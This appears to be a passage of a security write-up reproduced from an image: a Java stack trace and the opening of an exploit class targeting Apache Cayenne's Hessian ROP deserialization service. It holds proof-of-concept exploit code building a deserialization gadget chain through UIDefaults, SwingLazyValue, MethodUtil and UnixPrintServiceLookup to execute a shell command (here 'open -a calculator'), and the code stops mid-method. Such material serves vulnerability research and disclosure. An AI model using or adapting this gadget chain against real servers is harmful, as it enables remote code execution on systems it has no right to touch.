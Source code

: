 ```bash
invoke:275, MethodUtil (sun.reflect.misc)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
createValue:73, SwingLazyValue (sun.swing)
getFromHashtable:216, UIDefaults (javax.swing)
get:161, UIDefaults (javax.swing)
equals:813, Hashtable (java.util)
putVal:634, HashMap (java.util)
put:611, HashMap (java.util)
readMap:114, MapDeserializer (com.caucho.hessian.io)
readMap:577, SerializerFactory (com.caucho.hessian.io)
readObject:1160, HessianInput (com.caucho.hessian.io)
deserialize:74, HessianROPSerializationService (org.apache.cayenne.rop)
main:90, exp (org.apache.cayenne.tutorial.persistent)
```

```bash
package org.apache.cayenne.tutorial.persistent;

import com.caucho.hessian.io.*;
import com.sun.org.apache.xml.internal.utils.FastStringBuffer;
import org.apache.cayenne.remote.ClientMessage;
import org.apache.cayenne.rop.HessianROPSerializationService;
import sun.misc.Unsafe;
import sun.print.UnixPrintServiceLookup;
import sun.reflect.ReflectionFactory;
import sun.reflect.misc.MethodUtil;
import sun.swing.SwingLazyValue;

import javax.activation.MimeTypeParameterList;
import javax.swing.*;
import java.io.*;
import java.lang.reflect.*;
import java.net.HttpURLConnection;
import java.net.URL;
import java.util.HashMap;
import java.util.TreeMap;
import java.util.TreeSet;

public class exp {
     static SerializerFactory serializerFactory = new SerializerFactory();
    public static void main(String[] args) throws Exception{
        serializerFactory.setAllowNonSerializable(true);
        UnixPrintServiceLookup lookup = new UnixPrintServiceLookup();
        String cmd = "open -a calculator";
        setFieldValue(lookup, "osname", "xx");
        setFieldValue(lookup,"lpcFirstCom",new String[]{cmd,cmd,cmd});
        setFieldValue(lookup, "cmdIndex", 0);
        Method getPrintServices = lookup.getClass().getMethod("getDefaultPrintService");
        Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
        Object[] ags = new Object[]{invoke, new Object(), new Object[]{ getPrintServices,lookup,null}};
        SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil","invoke",ags);

        UIDefaults u1 = new UIDefaults();
        UIDefaults u2 = new UIDefaults();


        u2.put("2",swingLazyValue);
        u1.put("2",swingLazyValue);
```